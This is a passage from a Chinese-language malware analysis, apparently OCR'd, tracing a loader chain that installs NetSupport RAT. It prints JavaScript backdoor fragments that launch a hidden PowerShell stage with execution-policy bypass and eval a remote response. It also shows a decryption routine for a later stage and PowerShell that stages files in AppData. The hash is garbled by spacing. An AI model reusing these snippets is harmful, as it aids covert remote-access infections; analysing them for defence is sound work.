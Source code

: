 引爆:

```
if (initExeption == ‘0’) {
  try {
    var wsh = new ActiveXObject(“WScript.Shell”);
    runFileResult = wsh.Run(‘powershell -ep bypass -windowstyle hidden -f “‘ + _tempFilePathExec + ‘“‘, 0);
  } catch (e) {
    runFileExeption += ‘error number:’ + e.number + ‘ message:’ + e.message;
  }
}
```

提交完成并进入下一阶段，这将是 javascript 后门部分的另一个脚本片段:

```
var req = [];
req.push(‘c’);
req.push(‘503’);
req.push(_tempFilePathExec);
req.push(runFileResult);
req.push(initExeption);
req.push(runFileExeption);
this[‘eval’](request(req));
```

文件名:stage_4.ps1

哈希:a 1f 710 e 70688 c 61 f 447d 575 a 081 f 10 f 21 c 999170 e 67 cdedff 11 ACB 6b 87 b 0 ba 14

这是前一阶段下载并引爆的 powershell 文件，有趣的是混淆用法的重叠。这里的模糊包装器与 TA505[4]使用的 ServHelper[4，5]相关。解码与对与 ServHelper 相关的 powershell 文件的解码完全相同:

```
>>> passw = ‘n1db20gsmk536cazhrtuyx4fvol9q8pi’
>>> salt = ‘qxijovsr5w0a7zml9tpn2g3f8u6d1k4y’
>>> blob = find_blob(data)
>>> len(blob)
5289900
>>> derbytes = MS_PasswordDeriveBytes(passw, salt, hashlib.sha1, iterations=2, keylen=16)
>>> c = DES3.new(derbytes, DES3.MODE_CBC, iv[:8])
>>> out = c.decrypt(b64decode(blob))
>>> out[:100]
‘\r\n\r\n\r\nfunction oghygb4 {\r\n param($string, $method)\r\n $saguhga = [System.Text.Encoding]::ascii’
>>> open(sys.argv[1]+’.decr’, ‘wb’).write(out)
```

解码后的文件就是原始 ZIP 包中的 stage_5 文件。这个文件负责对 NetSupport RAT 包进行异或解码，并设置它的安装。

在 AppData 中创建随机文件夹:

```
$randf=( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count 8 | % {[char]$_}) )$fpath =”$env:appdata\$randf”mkdir $fpath
```
